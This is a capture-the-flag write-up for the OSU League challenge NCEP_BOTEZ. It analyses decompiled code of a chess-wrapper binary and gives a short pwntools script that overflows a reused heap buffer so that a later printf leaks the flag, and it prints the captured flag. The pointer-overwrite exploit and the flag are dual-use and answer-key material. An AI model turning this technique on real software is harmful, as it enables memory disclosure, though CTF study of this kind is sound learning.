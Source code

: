 ```yaml
---
title: "OSU League 2020/2021 - NCEP_BOTEZ Writeup"
date: 2021-4-11
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a binary that is very similar looking to the one from NCEP_XQC. 
Running the program there is that same GNU chess game that we can interact with, but this time we have no control over the command line arguments, so no injection. Messing around with the program we can see that the only place we have any sort of control is when we make our move:

```
flag loaded at 0x562c0e2e8260
executing command: /usr/games/gnuchess -g -m
GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : 
```

We are also given the location in memory of where the flag is loaded in at, which gives us a clue that whatever our payload is going to be must include it. At this point we started to do some static analysis to see where we could exploit something.

Since there is only one place in the program where we can put in user input, we started our reverse engineering there:

```c++
void get_input(long param_1)

{
  memset((void *)(param_1 + 0x110),0,0x100);
  fgets((char *)(param_1 + 0x110),0x500,stdin);
  return;
}
```

Interseting, it looks like we do an `fgets` to `param_1` plus an offset, but `param_1` is a variable that was passed into this function, so we followed that parameter up to see where it came from. Eventually, we were led to the main function of the program where we can see where it was initilized:

```c++
undefined8 main(void)

{
  void *__ptr;
  void *__ptr_00;
  
  __ptr = (void *)load_flag();
  __ptr_00 = malloc(0x21c);
  init_game(__ptr_00);
  printf("executing command: %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  launch_gnuchess(__ptr_00);
  thread_handler(__ptr_00);
  printf("finished executing command %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  free(__ptr_00);
  free(__ptr);
  return 0;
}
```

So now we know that `void *__ptr_00` is our `param_1`, but what is interesting here is how much it is being reused. We can see that it is used in the first `printf` to print the command that was excecuted, but then it gets passed into the `thread_handler` function, which is what eventually leads to our `fgets` being called. So the same pointer holding the string of our command is also being used for the `fgets`. This normally wouldn't be a problem since a null terminator is used to mark the end of a string, but here we see that quite a large buffer was used to allocate this particular char array. Maybe if we fill up that buffer and put the address of our flag in the string, we can make the second `printf` print the flag. Let's try it out:

```python
from pwn import *
import os, sys

io = remote('ctf.ropcity.com', 31315)

io.recvuntil("flag loaded at ")
addr = int(io.recvline(), 16)

flag = p64(addr)

io.recvuntil("White (1) : ")

payload = flag*100

io.sendline(payload)
io.interactive()
```

And running it we get the flag: 
`osu{ro$eN_w1LL_not_8e_th1$_4givinG}`

